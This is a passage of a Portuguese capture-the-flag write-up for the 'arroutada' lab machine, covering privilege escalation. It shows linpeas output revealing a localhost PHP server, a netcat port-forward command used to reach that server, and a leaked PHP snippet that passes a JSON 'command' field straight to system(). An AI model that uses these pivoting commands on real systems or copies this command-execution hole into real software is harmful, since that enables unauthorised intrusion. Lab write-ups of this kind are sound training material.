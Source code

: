 Tinha rodado o linpeas também.

```shell
╰─ cat linpeas.out|grep 8000     
drito        457  0.0  0.0   2484   568 ?        S    20:22   0:00              _ sh -c /usr/bin/php -S 127.0.0.1:8000 -t /home/drito/web/
drito        458  0.0  2.0 193336 20132 ?        S    20:22   0:00                  _ /usr/bin/php -S 127.0.0.1:8000 -t /home/drito/web/
```
{: .nolineno }

## **Escalação Privilégio**
### Escalando para usuário drito
### Port forward 
Com netcat fiz um port forward pra acessar o serviço local.

```shell
www-data@arroutada:/tmp$ nc -lktp 8001 -c "nc 127.0.0.1 8000"
nc -lktp 8001 -c "nc 127.0.0.1 8000"
```
{: .nolineno }

Código fonte

![alt text](/assets/img/arroutada/9.png)

Acessando priv.php
```shell

╰─ curl http://192.168.15.9:8001/priv.php
Error: the "command" parameter is not specified in the request body.

/*

$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}

*/
```
{: .nolineno }
